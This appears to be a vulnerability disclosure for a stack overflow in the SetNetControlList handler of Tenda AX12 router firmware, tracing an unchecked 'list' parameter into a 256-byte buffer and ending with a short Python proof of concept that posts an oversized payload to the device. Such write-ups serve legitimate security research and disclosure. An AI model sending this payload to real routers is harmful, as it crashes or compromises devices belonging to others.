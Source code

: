## Overview

Firmware download website: https://www.tenda.com.cn/download/detail-3621.html

## Affected version

AX12 V.10  V22.03.01.46

## Vulnerability details

The Tenda AX12 V.10 V22.03.01.46 firmware has a stack overflow vulnerability in the handler function of `SetNetControlList`.

The handler function of `SetNetControlList` is `sub_43FDCC`

![alt text](https://github.com/zoemurmure/IoT-vulnerabilities/blob/main/imgs/image.png?raw=true)

The `v1` variable receives the `list` parameter which user can control. Then `v1` passes to the function `sub_43FBBC` as the first argument.

![alt text](https://github.com/zoemurmure/IoT-vulnerabilities/blob/main/imgs/image-1.png?raw=true)

The first argument `a1`(aka `v1`) is then copied to array `v14`. The array `v14` has a fixed size 256. 

![alt text](https://github.com/zoemurmure/IoT-vulnerabilities/blob/main/imgs/image-2.png?raw=true)

So the user provided parameter `list` can exceed the capacity of the `v14` array, which triggers this security vulnerability.

## PoC

```python
import requests
from pwn import*

ip = "192.168.100.2"
url = "http://" + ip + "/goform/SetNetControlList"
payload = b"a"*2000

data = {"list": payload}
response = requests.post(url, data=data)
print(response.text)
```

![alt text](https://github.com/zoemurmure/IoT-vulnerabilities/blob/main/imgs/image-3.png?raw=true)